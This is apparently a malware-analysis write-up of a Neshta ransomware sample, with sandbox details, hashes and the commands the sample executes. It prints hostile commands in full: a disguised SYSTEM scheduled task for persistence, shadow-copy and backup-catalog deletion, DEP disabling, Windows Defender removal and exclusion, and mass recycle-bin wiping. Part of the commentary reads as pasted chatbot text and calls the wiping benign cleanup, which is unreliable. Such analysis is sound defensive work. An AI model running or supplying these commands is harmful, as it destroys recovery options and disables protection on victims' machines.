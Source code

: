 # Neshta Ransomware family

* [https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/](https://app.any.run/tasks/990b6a36-241d-4998-8272-ba6c273aa15c/)

## History

The ransomware Neshta was first discovered in 2007. It was designed to encrypt files on infected computer systems and demand a ransom in exchange for the decryption key. Neshta primarily spread through malicious emails, compromised software downloads, and other infection methods. Since its discovery, it has been one of many examples of ransomware that have caused disruptions and computer security issues worldwide.

## Sample Information

| Information       | Value                                         |
|-------------------|-----------------------------------------------|
| Analysis date     | December 17, 2023 at 07:20:45                 |
| OS                | Windows 10 Professional (build: 19044, 64 bit)|
| Tags              | ransomware                                    |
| File info         | PE32 executable (GUI) Intel 80386, for MS Windows |
| MD5               | BD3421CDFEA65D7037533121A4B82AEA              |
| SHA256            | 0E5C298EEA81721D30202057A8F1B6EEE18A1BFBB102248F1E862A96128097B9 |


## Setup

### Replication

edi=010BC178 &"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"

![create-directory](/images/neshta/neshta-01.png)
![create-directory](/images/neshta/neshta-02.png)

### Create Task

![create-task](/images/neshta/neshta-create-task.png)

The command you've provided is used to create a scheduled task in Windows. Here's a breakdown of its components:

```
cmd "/c SCHTASKS.exe /Create /RU \"NT AUTHORITY\\SYSTEM\" /sc onstart /TN \"Windows Update BETA\" /TR \"C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe\" /F"
```

-   `cmd "/c`: This initiates the execution of the command that follows it. `/c` tells the command prompt to execute the command and then terminate.
    
-   `SCHTASKS.exe /Create`: This command is used to create a scheduled task. `SCHTASKS` is the command-line utility for managing Windows scheduled tasks.
    
-   `/RU "NT AUTHORITY\\SYSTEM"`: This specifies the user account under which the scheduled task will run. In this case, it's set to run under the `SYSTEM` account, which has high-level privileges on the local system.
    
-   `/sc onstart`: This sets the schedule type for the task. `onstart` means the task will run each time the computer starts.
    
-   `/TN "Windows Update BETA"`: This sets the name of the task to "Windows Update BETA".
    
-   `/TR "C:\\Users\\Admin\\AppData\\Local\\Temp\\3582-490\\Windows Servers Runtime.exe"`: This is the action to be performed by the scheduled task. Here, it's set to execute a file named `Windows Servers Runtime.exe` located in a temporary folder within the Admin user's AppData directory.
    
-   `/F`: This forces the task to be created and overwrites any existing task with the same name.
    

**Implications:**

-   The use of the `SYSTEM` account suggests that the task will have extensive privileges on the computer.
-   The executable is located in a temporary folder and not in a typical program directory, which could be suspicious.
-   Naming the task "Windows Update BETA" might be an attempt to disguise its true purpose.

Given these factors, especially the location of the executable and the high privileges, this command could potentially be used for malicious purposes, such as running malware at system startup. It's important to be cautious with such commands, and they should only be used if you trust the source of the executable and understand the command's purpose.

### Disable some moyens de protections

1.  **vssadmin, wbadmin, bcdedit, and wmic command**: `cmd.exe "/c vssadmin.exe delete shadows /all /quiet&&wbadmin delete catalog -quiet && bcdedit.exe /set {current} nx AlwaysOff && wmic SHADOWCOPY DELETE"`
    
    -   `vssadmin.exe delete shadows /all /quiet`: Deletes all system restore points (Shadow Copies) without displaying messages.
    -   `wbadmin delete catalog -quiet`: Deletes the backup catalog, which can prevent previous backups from being restored.
    -   `bcdedit.exe /set {current} nx AlwaysOff`: Disables Data Execution Prevention (DEP) for the current system, potentially making the system more vulnerable to attacks.
    -   `wmic SHADOWCOPY DELETE`: Also deletes shadow copies, another form of restore points.
2.  **Add-MpPreference command (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Add-MpPreference -ExclusionPath \"%s\" "`
    
    -   Adds an exclusion in Windows Defender for a specific path (replaced by `%s`), meaning files in this path will not be scanned by Windows Defender.
3.  **Remove-WindowsFeature, New-ItemProperty commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-WindowsFeature Windows-Defender&&powershell -inputformat none -outputformat none -NonInteractive -Command Windows-Defender-GUI&&powershell -inputformat none -outputformat none -NonInteractive -Command New-ItemProperty -Path \"HKLM:SOFTWAREPoliciesMicrosoftWindows Defender\" -Name DisableAntiSpyware -Value 1 -PropertyType DWORD -Force "`
    
    -   Disables and removes Windows Defender (Windows' built-in antivirus) along with its graphical interface.
    -   Modifies the registry to disable Windows Defender's antispyware feature.
4.  **Get-Service, Stop-Service, Set-Service, Set-MpPreference commands (PowerShell)**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Get-Service WinDefend | Stop-Service -PassThru | Set-Service -StartupType Disabled&&powershell -inputformat none -outputformat none -NonInteractive -Command Set-MpPreference -DisableRealtimeMonitoring $true "`
    
    -   Stops the Windows Defender service (WinDefend), disables it at startup, and turns off Windows Defender's real-time monitoring.

### Clean Recycle Bin

![create-diectory](/images/neshta/neshta-clean-recycle-bin.png)

```
cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,S:\\$RECYCLE.BIN,T:\\$RECYCLE.BIN,U:\\$RECYCLE.BIN,V:\\$RECYCLE.BIN,W:\\$RECYCLE.BIN,X:\\$RECYCLE.BIN,F:\\$RECYCLE.BIN,G:\\$RECYCLE.BIN,K:\\$RECYCLE.BIN,L:\\$RECYCLE.BIN,M:\\$RECYCLE.BIN,N:\\$RECYCLE.BIN,O:\\$RECYCLE.BIN,Y:\\$RECYCLE.BIN,Z:\\$RECYCLE.BIN,A:\\$RECYCLE.BIN,B:\\$RECYCLE.BIN,C:\\$RECYCLE.BIN,D:\\$RECYCLE.BIN,E:\\$RECYCLE.BIN,H:\\$RECYCLE.BIN,I:\\$RECYCLE.BIN,J:\\$RECYCLE.BIN"

cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,S:\\Recycler,T:\\Recycler,U:\\Recycler,V:\\Recycler,W:\\Recycler,X:\\Recycler,F:\\Recycler,G:\\Recycler,K:\\Recycler,L:\\Recycler,M:\\Recycler,N:\\Recycler,O:\\Recycler,Y:\\Recycler,Z:\\Recycler,A:\\Recycler,B:\\Recycler,C:\\Recycler,D:\\Recycler,E:\\Recycler,H:\\Recycler,I:\\Recycler,J:\\Recycler"

cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove -Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"

cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"
```


These commands are Windows Command Prompt and PowerShell commands used to manipulate the Recycle Bin on various drives and to manage scheduled tasks. Here's a breakdown of each command:

1.  **Deleting $RECYCLE.BIN folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\$RECYCLE.BIN,Q:\\$RECYCLE.BIN,R:\\$RECYCLE.BIN,...J:\\$RECYCLE.BIN"`
    
    -   `rd /s /q`: This command recursively (`/s`) and quietly (`/q`) deletes a directory.
    -   `P:\\$RECYCLE.BIN, Q:\\$RECYCLE.BIN, ..., J:\\$RECYCLE.BIN`: These are the paths to the `$RECYCLE.BIN` folders on various drives from P: to J:.
    -   This command effectively deletes the Recycle Bin folder from each specified drive, which could be used to permanently remove files bypassing the Recycle Bin.
2.  **Deleting Recycler folders on multiple drives**: `cmd.exe "/c rd /s /q P:\\Recycler,Q:\\Recycler,R:\\Recycler,...J:\\Recycler"`
    
    -   Similar to the first command, this one deletes the `Recycler` folder on various drives.
    -   `Recycler` is an older version of the Recycle Bin used in older versions of Windows, like Windows XP.
3.  **Deleting $RECYCLE.BIN folders using PowerShell**: `cmd.exe "/c powershell -inputformat none -outputformat none -NonInteractive -Command Remove-Item 'd:\\$RECYCLE.BIN','c:\\$RECYCLE.BIN' -Recurse -Force"`
    
    -   This PowerShell command removes the `$RECYCLE.BIN` folders from the C: and D: drives.
    -   `-Recurse -Force`: These flags ensure that all contents within the folders are removed forcefully, including hidden or system files.
4.  **Deleting the scheduled task named "Windows Update BETA"**: `cmd.exe "/c SCHTASKS.exe /Delete /TN \"Windows Update BETA\" /F"`
    
    -   `SCHTASKS.exe /Delete`: This command is used to delete a scheduled task.
    -   `/TN "Windows Update BETA"`: Specifies the name of the task to be deleted.
    -   `/F`: Forces the deletion of the task without any prompts for confirmation.

**Implications:**

-   The commands for deleting the `$RECYCLE.BIN` and `Recycler` folders are often used in system cleanup or when trying to recover from a virus/malware infection that might have affected these directories.
-   Deleting the Recycle Bin folders does not harm the system, as Windows will recreate these folders when needed.
-   The deletion of the scheduled task "Windows Update BETA" is a management action, possibly undoing a previous setup or clearing an unwanted or suspicious task.

It's important to use these commands with caution, as they can lead to permanent deletion of files in the Recycle Bin. Additionally, modifying scheduled tasks should be done with an understanding of why the task was created in the first place.